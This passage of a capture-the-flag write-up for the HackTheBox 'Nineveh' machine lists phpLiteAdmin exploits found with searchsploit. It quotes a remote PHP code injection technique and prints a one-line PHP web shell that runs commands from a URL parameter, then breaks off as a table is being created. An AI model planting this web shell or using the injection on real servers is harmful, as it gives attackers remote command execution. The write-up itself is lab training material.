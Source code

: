 There's a well known exploit for phpLiteadmin:

```text
root@kali:~/htb/nineveh# searchsploit phpliteadmin
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                               |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
phpLiteAdmin - 'table' SQL Injection                                                                                                                                                         | php/webapps/38228.txt
phpLiteAdmin 1.1 - Multiple Vulnerabilities                                                                                                                                                  | php/webapps/37515.txt
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection                                                                                                                                               | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities                                                                                                                                                | php/webapps/39714.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------

root@kali:~/htb/nineveh# searchsploit -x php/webapps/24044.txt
  Exploit: PHPLiteAdmin 1.9.3 - Remote PHP Code Injection
      URL: https://www.exploit-db.com/exploits/24044
     Path: /usr/share/exploitdb/exploits/php/webapps/24044.txt
File Type: ASCII text, with CRLF line terminators
```

From that:

```text
An Attacker can create a sqlite Database with a php extension and insert PHP Code as text fields. When done the Attacker can execute it simply by access the database file with the Webbrowser.
```

Google found [this.](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/) Based on the above, the following is a PHP web shell in its simplest form.

```text
<?php system($_GET['cmd']);?>
```

Create a new table called ninevehNotes:

![phpliteadmin_create_db](/assets/images/2020-06-24-21-59-45.png)
